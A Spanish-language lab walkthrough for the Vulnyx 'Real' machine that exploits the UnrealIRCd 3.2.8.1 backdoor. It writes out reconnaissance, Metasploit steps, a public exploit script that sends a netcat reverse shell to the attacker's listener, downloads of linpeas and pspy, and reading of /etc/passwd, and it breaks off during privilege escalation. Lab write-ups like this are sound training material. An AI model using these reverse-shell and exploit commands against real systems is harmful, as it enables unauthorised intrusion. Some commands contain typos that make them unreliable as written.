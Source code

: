 #Reconocimiento
#Puerto80
#puerto6667
#reverseshell
#reverseshellpython
#escaladaPrivilegios

Mirror donwload: [Download - MEGA](https://mega.nz/file/FOZxHbKB#LLYTQBQLGLYTVdlMMJ27mLc23pGN0XjFlg4vgHvh5Qw)

![[Vulnyx - Real - Machine.png]]
## reconocimiento en la red

![[Vulnyx - Real - Reconocimiento.png]]

IP Máquina  target: 192.168.1.140
## NMAP

![[Vulnyx - Real - Nmap discover.png]]
Obtenemos que el epuerto 80 y puerto 22 esán abiertos
Puerto 80 es el puerto para servicio web
Puerto 22 es el puerto de SSH
Puerto 6667  --irc
Puerto 6697  --irc-u
Puerto 8067  --infi-async

Vemos la web que encontramos:

## revision puerto 80


![[Vulnyx - Real - Apache 2 Debian default website.png]]
Web es la web de apache 2 por defecto
Hacemos Gobuster para intentar encontrar  diferentes rutas de la web (por si existe algo fuera del index)


![[Vulnyx - Real - Goobuster.png]]
Pero no encontramos nada
podemos seguir intentando fuzz y gobuster subdomains

De la web no sacamos nada
Pasamos al siguiente puerto 6667

 instantamos explotarlo con metaexploit:
 comandos 
 msfconsole
![[Vulnyx - Real - Msfconsole.png]]

y buscando un poco por internet vemos que es vulnerable con metaexploit: 
https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/
vamos a intentar explotarlo segun lo encontrado

![[Vulnyx - Real - Search Unreal.png]]


Use 2
![[Vulnyx - Real - Use2 msfconsole.png]]

Options
![[Vulnyx - Real - Options.png]]

set rhost = IP:
![[Vulnyx - Real - Set rhost.png]]

set rport  6667

![[Vulnyx - Real - Set report 6667.png]]

use exploit/unix/irc/unreal_ircd_3281_backdoor
![[Vulnyx - Real - Use exploit irc unreal.png]]

show payloads:
![[Vulnyx - Real - show payloads.png]]

set payload reverse:
![[Vulnyx - Real - Set pauload reverse.png]]

set lhosts = local IP:
![[Vulnyx - Real - Set lhost.png]]


exploit
![[Vulnyx - Real - Exploit.png]]
but No sessions was created.

Buscando un poco por internet encontramos el repo de github

https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor

descargamos el exploit .py
wget https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor/blob/master/exploit.py

![[Vulnyx - Real - Descargar exploit del repo de github.png]]

Editamos el script en python para poner nuestra IP y el puerto con el que vamos a hacer el reverse proxy:
![[Vulnyx - Real - Script original.png]]


modificamos segun nuestras preferencias:
![[Vulnyx - Real - Config parameter.png]]

en este caso nuestra IP local y el puerto por el cual nos vamos a poner a la escucha que va a ser el 6666

ahora nos ponemos a la escucha en la terminal con  el comando:
nc -lvp 6666

![[Vulnyx - Real - Reverse shell en escucha.png]]

y una vez estamos escuchando por el puerto correcto lo que hacemos es ejecutar el scrip de python para conectar por el puerto 6667 y lanzar una reverse shell sobre nuestra IP por el puerto 6666
python3 exploit.py 192.168.1.140 6667 -payload netcat

![[Vulnyx - Real - Send exploit.png]]

y en la terminal que estamos a la escucha por el puerto 6666 recibimos la conexión:

![[Vulnyx - Real - Connection reverse proxy.png]]

Entramos con el usuario serve
![[Vulnyx - Real - Acceso con user serve vulnix real.png]]


intentamos movernos hasta home/serve  para ver si está la flag del usuario
y conseguimos la primera flag del usuario:
![[Vulnyx - Real - User server flag.png]]
user server flag: 3b7fb7c1c8737a5c67dc513657e3efb3


Comando id
![[Vulnyx - Real - Comando id para ver el usuario.png]]
Con el comando id vemos que el usuario es server 

vemos el passwd en /etc/passwd:
![[Vulnyx - Real - Passwd.png]]

server:x:1000:1000:server,,,:/home/server:/bin/bash
aquí vemos que el id de usuario es 1000 e identificador de grupo es 1000 --> Todos los que comienzan con 1000 en LINUX son usuarios

ahora vamos a hacer tratamiento de la TTI:


Tratamiento de la TTI
script /dev/null -c bash
CTRL + Z
stti raw -echo ; fg
reset
xterm
export TERM = xterm-256color
export SHELL = bash
stty -a

Descargamos linpeas:

https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/README.md
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

le damos permisos de ejecucion al fichero .sh
chmod +x linpeas.sh
ejecutamos linpeas
./linpeas.sh

![[Vulnyx - Real - Linpeas.png]]

Pero no encontramos nada interesante

Usamos la herramient pspy:
https://github.com/DominicBreuker/pspy
url de descarga:
https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64

le damos permisos de ejecucion
chmod +x pspy64

lo ejecutamos
./pspy64
![[Vulnyx - Real - Pspy64.png]]

nos encontramos un fichero que se ejecuta como admisnitrador en /opt/Task
vemos ese fichero:
cat /opt/Task

